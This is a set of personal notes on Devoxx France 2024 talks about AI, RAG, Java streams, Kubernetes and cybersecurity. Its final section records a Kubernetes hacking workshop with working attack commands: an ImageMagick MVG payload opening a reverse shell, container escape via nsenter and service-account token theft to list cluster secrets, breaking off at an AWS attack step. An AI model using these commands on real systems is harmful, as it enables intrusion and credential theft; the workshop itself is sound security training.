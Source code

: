 = Devoxx France 2024
Damien Cuenot <icon:github[] https://github.com/dcuenot/[GitHub] / icon:twitter[role="aqua"] https://twitter.com/cdams86[@cdams86]>
// Handling GitHub admonition blocks icons
ifndef::env-github[:icons: font]
ifdef::env-github[]
:status:
:outfilesuffix: .adoc
:caution-caption: :fire:
:important-caption: :exclamation:
:note-caption: :paperclip:
:tip-caption: :bulb:
:warning-caption: :warning:
endif::[]
:imagesdir: ./images
:source-highlighter: highlightjs
:highlightjs-languages: asciidoc
// We must enable experimental attribute to display Keyboard, button, and menu macros
:experimental:
// Next 2 ones are to handle line breaks in some particular elements (list, footnotes, etc.)
:lb: pass:[<br> +]
:sb: pass:[<br>]
// check https://github.com/Ardemius/personal-wiki/wiki/AsciiDoctor-tips for tips on table of content in GitHub
:toc: macro
:toclevels: 2
// To number the sections of the table of contents
//:sectnums:
// Add an anchor with hyperlink before the section title
:sectanchors:
// To turn off figure caption labels and numbers
:figure-caption!:
// Same for examples
//:example-caption!:
// To turn off ALL captions
// :caption:

[#img-header] 
.Devoxx France 2024
[link=https://cfp.devoxx.fr/2024/index.html] 
image::header.png[Devoxx France 2024,970,250]



toc::[]

== MERCREDI

=== Présentation du salon

* https://www.devoxx.fr/, du 17 au 19/04/2024
* Et c'est parti pour Devoxx France 2024, ma 5e édition
* Template inspiré par https://twitter.com/thomasschwender[@thomasschwender], merci à lui!
* Doc AsiiDoctor: https://docs.asciidoctor.org/asciidoc/latest/syntax-quick-reference/
* Les talks avec un :movie_camera: dans le titre, sont les talks où je recommande de regarder le replay quand il sera disponible.

=== IA en médecine : où en sommes-nous ?

==== Abstract

.Speakers : Jean-Emmanuel Bibault
----
Les techniques de machine learning sont actuellement utilisées pour entraîner de nombreux modèles en médecine. Pourquoi connaissons-nous un tel âge d'or de l'IA appliquée à la médecine ? 
Cette présentation illustrera l'utilisation de l'IA par différents exemples publiés : prédiction du risque de développer un risque 5 ans à l'avance, interprétation automatisée d'image médicale, détection par Deep Learning de mélanome, prédiction de la survie sur simple scanner, pilotage de robots chirurgicaux, dépistage de la dépression sur instagram, chaque exemple sera expliqué et commenté. Mais l'IA comporte également des risques liés à la gestion des données d'entraînement, aux biais ou encore les attaques adversarielles. Les perspectives de développement à 10 à 15 ans seront enfin abordées pour comprendre comment l'IA va changer la santé de tous.
----

==== Notes

IA en médecine --> anylise d'image, pose de diagnostique (ce qu'on fait déjà)
Tâches de prédiction & de personnalisation (plus difficile car on ne le fait pas déjà en médecine)

En médecine, dataset petits, données très peu structurées --> overfitting
L'effet boîte noire est perturbant en médecine, mais visiblement ça s'arrange

protastecancersurvival.stanford.org

Que peut-on faire à partir d'analyse d'image (deep learning)
Détection du cancer du sein, du poumon / Classification / Monitoring
cheXnet (radio thorax) --> données un peu biaisée, car certaines reconnaissances ce sont basées sur le label de l'hopital sur la radio

Analyse des fonds d'oeil / analyse de photos de grain de beauté
Photos insta pour détecter la dépression
ResNet50 pour détecter des risques de cancer par image satelitte..

IA générative
85* de bonnes réponses au test US pour devenir médecin (mieux que le taux requis)
Commence à avoir de meilleur diagnostic qu'un médecin, et il y a plus d'empathie qu'avec un médecin

Risques
Assez facile de feinter un système de reconnaissance d'image
Biais dans les données
Début de possibilités pour "lire dans les pensées", capacité de reproduire une image à partir d'activité cérébrale


=== Hands-on Gemini, the Google DeepMind LLM

==== Abstract

.Speakers : Mete Atamel & Valentin Deleplace & Guillaume Laforge
----
In this hands-on workshop, you will get to code using Gemini, the new Large Language Model from Google DeepMind. You will first start by familiarizing yourself with the model's capabilities. Then you will use Gemini in different concrete cases, such as extracting data from unstructured text, document classification, but also searching your own documents, or how to supplement the model by integrating the call to external APIs.
The workshop will be conducted using the Java language and the LangChain4j library. Come equipped with a laptop. We will code together in the cloud, no need for any special installation on your machine.
----

==== Notes
AI > Machine Learning > Deep Learning > Generative > Image Gen / LLMs (transformers)
https://s10251.pcdn.co/wp-content/uploads/2024/03/2024-Alan-D-Thompson-AI-Bubbles-Planets-Rev-6.png

Gemma is the open source of Gemini

Workshop based on Vertex AI, and what will do is not fully compatible with Google AI Studio


LangChain4j
Great abstraction and high level
There is a java SDK, but for the workshop we will use LangChain4j

Link to the lab: http://bit.ly/gemini-devoxx-2024


Gemini can speak French, but when I changed the temperature to 1, its creativity disappeard :(
....
Je suis désolé, mais je ne peux pas vous répondre en français car je ne suis pas encore configuré pour cela. 
Je suis toujours en développement et j'apprends de nouvelles choses chaque jour. 
Pour l'instant, je ne peux que répondre en anglais.
....

Gemini is multimodal and can describe images. I did a test with [this one](https://www.devoxx.fr/wp-content/uploads/2023/11/21-1200x630-Facebook-Feed-Image2.png)
....
 The picture shows a robot running in a stadium with a crowd of people watching. 
 The robot is wearing a black and gold suit and has a green light on its chest. 
 The stadium is lit up by bright lights. 
 The picture is taken from a low angle, making the robot look larger than life.
....

Retrieval Augmented Generation (RAG)
_I'm finaly starting what my team is doing.. _

image::indexing_querying.png[Ingestion and Querying]



Function calling
https://github.com/glaforge/gemini-workshop-for-java-developers/blob/main/app/src/main/java/gemini/workshop/MultiFunctionCalling.java


=== Je me suis fait voler la carte de crédit de ma banque en ligne et mon téléphone portable... C'est grave docteur ?

==== Abstract

.Speakers : Patrick Merlin
----
Retour sur un incident de sécurité incluant vol de téléphone.
Le téléphone permet de valider toutes les transactions.
Nous verrons ce qu'il ne faut surtout pas faire pour éviter les pépins !
----

==== Notes

Les retraits DAB ont été remboursés
Les virements faits avec la double d'authentification n'ont pas été remboursé
Si l'opérateur bloque la ligne, les SMS sont toujours distribués

Les codes MFA de secours, ça dépanne toujours

=== Du Clic à la Conversation : remplaçons boutons et formulaires par un LLM !

==== Abstract

.Speakers : Marie-Alice Blete
----
Préparez-vous à voyager dans le domaine de l'interaction homme/machine. Vous connaissez la première révolution : la souris et l'interface graphique ? Nous sommes désormais à l'ère de la deuxième révolution : l'interaction en langage naturel grâce a l'intelligence artificielle.
Dans cette présentation, nous allons metamorphoser une application standard en une application basée sur un LLM. Dites adieu aux boutons et formulaires car nous nous apprêtons à réécrire les règles de l'interface utilisateur !
Nous débuterons par les bases, avec un bref rappel des principes de LLM, suivi d'une première solution exploitant l'API OpenAI. Ensuite, nous verrons deux autres solutions plus avancées, dont une comprenant l'utilisation d'agents avec le framework LangChain.
À la fin de cette présentation, vous disposerez de toutes les connaissances nécessaires pour vous lancer. Vous aurez également une liste d'astuces, de conseils, ainsi qu'une bonne compréhension des écueils pour intégrer des LLM dans vos developpements. Passons du clic à la conversation !
----

==== Notes

https://github.com/malywut/clicks2conversations
https://www.microsoft.com/en-us/research/publication/guidelines-for-human-ai-interaction/


=== Nous sommes tous rassemblés - We are all to gather

==== Abstract

.Speakers : Rémi Forax
----
Java 22 est sorti avec en preview une nouvelle API pour créer soi-même ses propres opérations sur les Streams, un peu comme l'API des collecteurs mais pour les transformations intermédiaires effectuées par un stream.
Je vous propose d'en profiter pour faire un petit retour sur les concepts derrière un Stream, comment cela fonctionne en interne, comment les opérations (parallel/stateful/short-circuit) sont définies. Puis de sauter dans le grand bain et découvrir la nouvelle méthode gather() et l'API des Gatherers et ce que l'on peut faire avec. Enfin, nous verrons les limitations et les améliorations possibles de cette nouvelle API.
----

==== Notes
Stream ?
Spliterator > Filter (Interdemediate op) > FlatMap > toList (Terminal op)
Spliterator push les données (à la différence d'un Iterator qui pull)

A Gather
Objectif implémenter n'importe quelle opération intermediaire
stream.gather(Gatherers.fold(..)).toList()

Modelisation
....
Gatherer<String, ?, String> filter() {
    return Gatherer.of((_, element, downstream) -> {
        if(elemeent.endsWith("1")){
            return downstream.push(element);
        }
        return true;
    })
}
....

Parallel or Sequential
Stateless or Stateful
Short-circuit (peut s'arrêter en cours, ex: limit) vs Greedy (ne peut pas s'arrêter)

jmh pour tester les perfs
Pour l'instant gather est plus lent que les map / mapToInt natif, car ces derniers contiennent des optimisations

API en preview dans java 23



=== :movie_camera: Crafting your own RAG system: Leveraging 30+ LLMs for enhanced performance

==== Abstract

.Speakers : Stephan Janssen
----
In this talk you'll learn how to set up a RAG (Retrieval-Augmented Generation) system against 30+ different Large Language Models using Java.
We'll show you step-by-step how to ingest documents, choose the best text splitter strategies, find similar documents, answer questions, and create a chatbot.
Then, we'll see how to test and compare different AI models, both from open sources and private ones, and whether they are stored on your own computer or accessed online.
You'll walk away knowing how to setup a well balanced RAG system using Java and the best performing and/or cheapest LLM.
----

==== Notes

Embedding --> convert a text to vector
QueryTransformer generate Sub-questions
Agents (or Tools)  can answer directly with data on DB / websites

ReRanker supported: Cohere (cost) + (free one: https://github.com/stephanj/BM25 (troll ;)) )

image::stephan007.jpg[Querying]

*How do we correctly split text?*
To split or not to split? That's the question

window context of 4K to 200K tokens... to 1M tokens
120$ for 1M tokens per query
Response time

Greg Kamradt (youtube) explains how to split
https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.youtube.com/watch%3Fv%3D8OJC21T2SL4&ved=2ahUKEwjDuPSstMmFAxXETKQEHWgYBAMQwqsBegQICxAG&usg=AOvVaw0M6zfJI40tTM5-FIAnltcz

*Vector store*
pgVector / Milvius / Elastic...
Alexander Chatzizacharias
https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.youtube.com/watch%3Fv%3DW-i8bcxkXok&ved=2ahUKEwjokcq9tcmFAxVuUKQEHbkaDr4QtwJ6BAgREAI&usg=AOvVaw27WlIgOmfG3jRGrqY2XIoz

https://github.com/weaviate/weaviate
https://www.anthropic.com/news/claude-3-family

*Embedding*
OpenAI / Nomic / HuggingFace / Cohere v3 (multi language)
All MiniLM L6 V2 / E5 Small V2
https://github.com/stephanj/langchain4j-cohere

/!\ Max input limit

*Evaluate your RAG*
https://github.com/stephanj/rag-genie


== JEUDI

=== Programming's Greatest Mistakes

==== Abstract

.Speakers : Mark Rendle
----
Most of the time when we make mistakes in our code, a message gets displayed wrong or an invoice doesn't get sent. But sometimes when people make mistakes in code, things literally explode, or bankrupt companies, or make web development a living hell for millions of programmers for years to come.
 
Join Mark on a tour through some of the worst mistakes in the history of programming. Learn what went wrong, why it went wrong, how much it cost, and how things can be pretty funny when they're not happening to you.
----

==== Notes

$500,000,000,000 due to Y2K bug, mainly in Mainframe
Y2K22 22220101 can't be parsed as a Long

Pentium FPU (Floating Point Unit)

Null (billion dollars mistake)
issue introduced in Algol W (first language with null)

Bugs in space
In space noone can set a breakpoint

Mars Climtae Orbiter
Orbiter failed due to conversion issue between imperial & metric systems

Ariane 5
Copy paste code btw Ariane 4 & 5, but they changed the processor (moved to 64 bits processor)

Don't trust computer :)


=== Un monde shooté aux métaux

==== Abstract

.Speakers : Agnes Crepet & Guillaume Pitron
------
Dans cette conférence intitulée "Un monde shooté aux métaux", Guillaume Pitron, expert des enjeux géopolitiques liés aux ressources naturelles, et Agnes Crepet, spécialiste en technologies éco-responsables, s'unissent pour aborder la dépendance croissante de nos sociétés aux métaux rares et ses implications profondes. Ils exploreront comment cette consommation excessive impacte l'environnement, l'économie mondiale et les relations sociales, en dévoilant les chaînes d'approvisionnement complexes qui relient les mines isolées aux technologies quotidiennes. La discussion soulignera les conséquences environnementales de l'extraction des métaux, les défis éthiques et les tensions géopolitiques qu'elle engendre.
------

==== Notes



=== Comprendre l'IA: construisez votre propre ChatGPT d'entreprise avec LangChain4J

==== Abstract

.Speakers : Yohan Lasorsa & Julien Dubois & Sandra Ahlgrimm
------
Les technologies d'IA, et particulièrement les grand modèles de langages (LLM) poussent un peu partout comme des champignons ces derniers temps. Comment ces modèles fonctionnent-ils, et comment s'en servir dans vos applications?
Dans ce workshop, nous allons construire de zéro un chatbot basé sur GPT-4 implémentant le pattern Retrieval Augmented Generation (RAG). En utilisant une base de documents de référence, le modèle sera capable de répondre à des questions en langage naturel, et de générer des réponses complètes et sourcées dans vos documents. Pour cela, nous allons créer un service SpringBoot qui s'appuiera sur le framework open-source LangChain4J, ainsi qu'un site web pour tester notre chatbot. Enfin, nous déploierons le tout sur Azure.
   
Au programme:  
- Introduction aux modèles de langage: fonctionnement et limites
- Création d'une base de connaissances: embeddings, BDD vectorielle et recherche par similarité  
- Utilisation de LangChain4J pour implémenter le pattern RAG (Retrieval Augmented Generation)
- Introduction au prompt engineering pour améliorer les performances
- Création d'une API SpringBoot pour interagir avec le modèle
- Création d'un site web pour tester le chatbot
- Déploiement de l'API dockerisée et du site web sur Azure
   
A l'issue du workshop, vous aurez une compréhension plus claire des LLMs ainsi que des idées pour les utiliser. Vous saurez comment créer une base de connaissances et un chatbot fonctionnels, et les déployer dans le cloud.
------

==== Notes

----> Salle comble :( , donc plan B 
https://aka.ms/ws/openai-rag-quarkus


=== GatewayAPI, 10 ans de maturation pour une nouvelle API Kubernetes

==== Abstract

.Speakers : Kevin Davin
------
Exposer une application Kubernetes au monde peut devenir un vrai casse tête 🧐.  
Nous avons d'un côté les API standards avec Ingress, service de `type=LoadBalancer`, voir même les NodePorts… et de l'autre, les APIs custom proposées par les Ingress Controllers et Service-Meshes très avancées mais non standard 😅
Après tant d'années de confusion, une nouvelle API, nommée Gateway API, arrive tout juste en v1.0 (🎉) pour contenter à la fois les développeurs et les opérateurs de cluster ou d'infrastructure 🤯!
Nous découvrirons ensemble cette nouvelle API, ses fonctionnalités avancées et les implémentations qui vous permettrons de les utiliser dans votre cluster ⚡️!
------

==== Notes

Dans Kube il manque des choses, mais il est possible d'en ajouter
NodePort 
>> LoadBalancer 
>> kind: Ingress (fait disparaitre la notion node) pointe vers le service qui pointe vers les nodes
http only, configuration par annotations dans le .yaml, niveau certificat il doit connu par le domain, déploiement complexe
>> Ingress-Controlers (CRD custom): contour
>> Api gateway (CRD custom): Kong, traefik

>> GatewayAPI project
Spec, et pas d'implémentation
4 concepts clés:
* Role Oriented (Infra, cluster operator, Dev)
* Portabilité 
* Extensible (update décorelé du cluster k8s)
* Expressif (HTTProute, GRPCRoute, UDPRoute)

image::k8s.jpg[Gateway]

GatewayClass (Gérer par les personnes de l'infra)

HTTPRoute (Gérer par les dev)

Routage possible multi namespaces
Nouvel object: ReferenceGrant 
ReferenceGrant identifies kinds of resources in other namespaces that are trusted to reference the specified kinds of resources in the same namespace as the policy.

Possible de faire du routing sur du path, des headers HTTP, des query param, RequestMirroring (les appels v2 sont en fire & forget)

Comment on démarre avec la Gateway API
Gateway API: https://gateway-api.sigs.k8s.io/implementations/


=== La recherche à l'ère de l'IA

==== Abstract

.Speakers : David Pilato
------
La recherche ne se contente plus de l'approche maintenant traditionnelle basée sur la fréquence des termes (TF/IDF ou BM25) mais plus sur la tendance actuelle du machine learning où les nouveaux modèles ont ouvert une nouvelle dimension pour la recherche.
Cette conférence donne un aperçu de :
La recherche "Classique" et ses limitations
Qu'est qu'un modèle de machine learning et comment vous pouvez l'utiliser
Comment utiliser la recherche vectorielle ou la recherche hybride dans Elasticsearch
Comment ChatGPT d'OpenAI ou les "large language models" (LLMs) similaires viennent jouer naturellement avec Elastic
Cette session couvre l'état de l'art en matière de recherche de nos jours : BM25, recherche vectorielle, embeddings, recherche hybride, Reciprocal Rank Fusion, intégration avec OpenAI... La démo principale montre comment générer des embeddings à partir de musiques puis comment trouver la musique qui s'approche le plus d'une musique que nous fredonnons.
------

==== Notes

C'est quoi un vecteur?
Elements représentés dans un espace d'embeddings

image::similar_vectors.jpg[Similar Vectors]

Comment on passe des entrées à des vecteurs?
Utilisé des modèles sur étagère (reco) sinon créer son modèle mais attention au use-case

Source data -> pytorch -> post des embeddings dans Elastic (mode free)
Source data -> Elastic ML (inférence faite à l'insertion) -> post des embeddings dans Elastic (mode payant)
https://ela.st/nlp-supported-models

Query --> même modèle qu'à l'indexation --> génère le query vector

Search - query - KNN
Index - mapping - dense_vector

1 + cos(theta) / 2 --> méthode par défaut de calcul de distance
sinon distance euclidienne

HNSW Hierarchical Navigable Small Worlds
----> améliore les perfs

4096 dimensions supportés par Elastic --> mais ca coute cher en IO disk, mémoire (mais c'est hors heap java)
Eviter de faire des recherches pendant les indexations (utilisé des aliases)
Exclure les vecteurs du champs _source (useless pour les users)
Reduire les dimensions
Utiliser des octets au lieu des floats

hybride search
Recherche sur les termes + recherche vectorielle
Une query avec le match (classique) + la recherche knn avec les vecteurs
^ dense vector

ELSER 
sparse_embedding genere des "synonymes" pondéré

RRF (Reciprocal Rank Fusion) - Ranking
On tient compte du rang dans les résultats (on ajoute 60 + rang), et on somme les rangs obtenus par chaque algo

exclude audio_embedding from _source


Demo RAG: Elastic + Cohere
Données du wiki Elastic indexées
Possibilité de faire de la sécurité niveau document (Document level security)

Lien vers la présentation: https://speaker.pilato.fr/WlpZdt

=== Debugguez votre salaire ! Mes stratégies gagnantes pour réussir sa négociation salariale

==== Abstract

.Speakers : Shirley ALMOSNI CHICHE
------
Décortiquer les mystères du salaire, un terrain miné où se mêlent débats enflammés, préjugés persistants et fantasmes insaisissables…

Parfois, tel un mauvais date, vous avez du mal à aller jusqu'au bout d'une proposition convenable à cause de multiples arguments comme « on n'a pas le budget », « on doit respecter la grille salariale » ou encore « vous n'avez pas été assez convainquant techniquement ». J'exposerai donc les points critiques qui vous font souvent obstacle. 

Évidemment ça vous frustre et vous n'êtes pas Jean Claude Dusse : tout ne se joue pas sur un malentendu. Ainsi je vous donnerai les coulisses de la réflexion salariale et les quelques contre-arguments à formuler pour gagner la partie. Tout cela saupoudré de mon analyse du profil des employeurs/interlocuteurs. Je vous parlerai donc des utilisateurs de vos compétences et de leurs freins réels et psychologiques. C'est mon petit côté agile.

Enfin, telle une vétérante du recrutement, je vous dévoilerai une multitude de conseils pratiques pour maîtriser l'art de la négociation salariale. Pour cela, je mettrai en lumière l'importance cruciale de la préparation et de l'anticipation dans cette jungle du recrutement bien avant que la question du salaire ne soit posée sur la table. 

Fini le mystère, place à la stratégie gagnante ! 😘
------

==== Notes

Bugs observés
1. Respect de la grille salariale
2. Traitement équitable (le nouveau va avoir plus que le Tech Lead qui est là depuis 3 ans)
3. Désolé les finances sont compliquées
4. Désolé tu n'as pas le niveau technique
5. Plaisir de négocier
6. Discrimination salariale

Correction de bugs
1. Bien se renseigner sur le package. Rentrer dans le champ lexical de l'interlocuteur
2. Montrer qu'on est prêt à aller au dela du role décrit. Revalorisation fin période d'essai (à mettre dans le contrat de travail)
3. BSPCE, coûts du chasseur de tête, polyvalence
4. Demandé le feedback de l'entretien technique, essayer d'avoir une formation pour arriver au niveau, montrer que l'entretien technique n'a pas mis en valeur mes compétences
5. Pointer les failles / vices dans le projet visé, poser des limites
6. go / nogo, pas simple de savoir quoi faire quand on y fait face.

Miroir, empathie tactique
Fore tranquille: écouter, penser à l'autre

Tips
* Le choix du poste (zone de confort ou alors on s'éloigne ? Secteur qui paie bien ? Poste courtisé ? Localisation ? Equilibre entre offre et demande)
* L'observation (annonce de recrutement, le marché, santé financière, staff & background) - chooseyourboss seyos denis germain levels.fyi
* Face à face RH (apport de la valeur, faits concrets, poser des questions sur le poste)
* Salaire souhaité (méthode Ackerman, chiffre spécifique, donner la marge de flexibilité)
* Rencontre technique (attente priorité pour le poste, quel est format de l'évaluation ? Points de souffrance dans leur quotidien, feedback post-entretien, partage des critiques)
* Equipe (la rencontrer, identifier les personnes influentes)
* Proposition d'embauche (temps de réflexion +/- 48 heures, rester cohérent, contre-offre argumentée sur des faits + bon timing
)




== VENDREDI

=== Comment modéliser l'état du monde en 2100 ? Le Rapport Meadows

==== Abstract

.Speakers : Anatole Chouard
----
Comment modéliser l'état du monde en 2100 ? Pas la question la plus simple ! Mais en 1972 un groupe de chercheurs du MIT a essayé de répondre à cette question : c'est le fameux et fascinant rapport Meadows. Et ils ont compris bien des choses avant tout le monde. Dans cette conférence interactive, je vous fais un résumé en 20 minutes de la méthode et surtout des résultats du rapport Meadows !
----

==== Notes

Rapport Meadows

Identifier les systèmes majeur
Alimentaire / industriel / population / pollution / ressources (renouvelable - non-renouv)

Interaction entre systèmes

Quantifier les interactions

Courbes des évolutions (l'important c'est la forme des courbes, pas les valeurs)

=== Cybersécurité et cyberdéfense : un sujet géopolitique

==== Abstract

.Speakers : Guillaume Poupard
----
La cybersécurité est souvent vue, à juste titre, sous un angle technique, opérationnel et réglementaire. L'incroyable évolution de la menace informatique nous concerne tous, à titre individuel, au niveau des organisations mais également à l'échelle des Etats. Dans un contexte général de fortes tensions géopolitiques, le cyber est devenu un ingrédient majeur dont l'usage se systématise dans des conflits qualifiés « d'hybrides ». Passionnante et effrayante, cette militarisation de l'espace numérique nous concerne toutes et tous !
----

==== Notes

80% du temps passé à l'ANSII, c'est pas sur la cybersec mais l'espionnage
Bureaux des légendes une bonne référence
Espionnage le vrai plus vieux métier du monde :)

Attaquants très discrets
Victimes ne s'en rendent pas compte (ça prend des mois voire des années pour le découvrir)

Cyber devenu un sujet géopolique
Possibilité de paraliser des systèmes / états entier

Livre blanc 2008
https://fr.wikipedia.org/wiki/Livre_blanc_sur_la_défense_et_la_sécurité_nationale_2008#:~:text=Le%20Livre%20blanc%20sur%20la,France%20de%202009%20à%202020.

En France, on a un problème, donc on en fait une loi
Les OIV doivent se protéger des attaques cyber
12 secteurs dans les OIV
* Énergie
* Transports
* Eau
* Santé
* Télécommunications
* Défense
* Finances
* Alimentation
* Technologies de l'information et de la communication
* Recherche
* Industrie chimique
* Espace

Cyber attaque TV5 Monde 2015
Attribuer une attaque à qqun c'est qqch de très difficile
Source au final --> l'Est

2017 - Wannacry
GB le service de santé s'est bloqué

Notpetya
Efface les données, donc pas vraiment un rancçngiel
Visait princiapelement l'Ukraine
Saint Gobbin impacter par Notpetya, usine en Ukraine opérait une usine là-bas (bien que vendu 2 ans auparavant)
Ukraine toujours attaqué par l'Est maintenant, mais a su mieux se protéger


=== Si j'étais un hacker, comment est-ce que je prendrais le contrôle de votre cluster Kubernetes

==== Abstract

.Speakers : Thibault Lengagne & Alexandre Hervé
----
Un cluster Kubernetes est un orchestrateur de conteneurs qui permet de déployer et de gérer des applications de manière efficace. Cependant, en raison de sa complexité, un tel cluster peut facilement être vulnérable aux attaques et sa sécurité peut être compromise. Pour éviter cela, la meilleure option reste de tester ses défenses en se mettant dans la peau d'un attaquant !
Devenez vous-même un hacker pour la durée de cet atelier. Vous allez réaliser les différentes étapes de compromission un cluster Kubernetes et du compte AWS sous-jacent. Nous aborderons différentes techniques d'attaques en commençant par l'exécution de commandes sur un pod puis, grâce à différentes élévations de privilège, la compromission totale du cluster. Nous mettrons également en place des mesures préventives dans le but d'empêcher ces différentes failles de sécurité d'être exploitées.
----

==== Notes

https://www.microsoft.com/en-us/security/blog//wp-content/uploads/2020/04/k8s-matrix.png


Ecoute sur l'attaque box
....
nc -lvnp 50986
....

Créer une image avec l'exploit
....
$ cat exploit.mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|setsid /bin/bash -i >/dev/tcp/10.100.1.188/50986 0<&1 2>&1 &")'
pop graphic-context
....

Dans le shell interactif
....
python -c 'import pty; pty.spawn("/bin/bash")'
Press Ctrl+Z
$ stty raw -echo
Press fg and then Enter
....

Une fois connecté dans le pod:
Lister les process
....
ps aux
....

Lister les capacités du container
....
capsh --print
....

Pour sortir du container et aller sur node:
....
nsenter --target 1 --mount --uts --ipc --net --pid -- bash
....

Lister les containers ou les points de montage
....
ctr -n k8s.io c list
mount | grep kube
....

....
#!/bin/bash

# Download kubectl
cd /tmp/
curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl
chmod +x ./kubectl
mv ./kubectl /bin
alias kubectl="kubectl  --server=https://$KUBERNETES_SERVICE_HOST --token=$TOKEN --insecure-skip-tls-verify=true"

# Tries all the token found to access kube-api
# Tries to get the secrets using each token

# for path in $(mount | grep kube-api | awk '{print $3}'); do
#   TOKEN=$(cat $path/token);
#   echo "==================================="
#   echo $TOKEN;
#   echo "Service account : $(python /tmp/decode_jwt_token.py $path/token | jq -r '.sub')"
#   echo "-----------------------------------"
#   kubectl get secrets -A;
#   echo "==================================="
# done

# Look for admin token
ctr -n k8s.io container list
PID=$(ctr -n k8s.io container list | grep nginx | awk '{print $1}')
crictl exec -it $PID /bin/sh

# Get token
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Two tokens should work the ingress controller service account and the busybox service account
export TOKEN=<...>

# You can list but not read
kubectl get secrets -n kube-system --token=$TOKEN

# Tips add -o yaml pour avoir la sortie
....


Attack AWS
....
#!/bin/bash

#
# On the node shell
